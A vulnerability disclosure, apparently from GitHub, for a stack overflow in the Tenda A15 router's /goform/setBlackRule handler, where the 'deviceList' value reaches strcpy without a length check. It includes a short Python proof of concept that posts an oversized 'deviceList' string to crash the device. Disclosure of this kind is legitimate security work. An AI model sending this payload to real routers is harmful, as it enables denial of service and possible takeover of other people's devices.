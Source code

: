 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "deviceList" parameter at /goform/setBlackRule.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formAddMacfilterRule function, get deviceList via websGetVar and pass first argument to parse_macfilter_rule

![1703731028904](image/setBlackRule.zh-cn/1703731028904.png)

The parse_macfilter_rule function, however, is not passed to the dest_rule->name variable via strcpy without any length checksum, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.

![1703731130516](image/setBlackRule.zh-cn/1703731130516.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/setBlackRule'

payload = {
    'deviceList': 'a' * 0x400 + '\r' + 'ff:ff:ff:ff:ff:ff'
}

r = requests.post(url=url, data=payload)

print(r.content)
```

## Trigger details

See video content
[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1704443494/video_to_markdown/images/youtube--Dr2DSNPQKPk-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://youtu.be/Dr2DSNPQKPk "")


## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
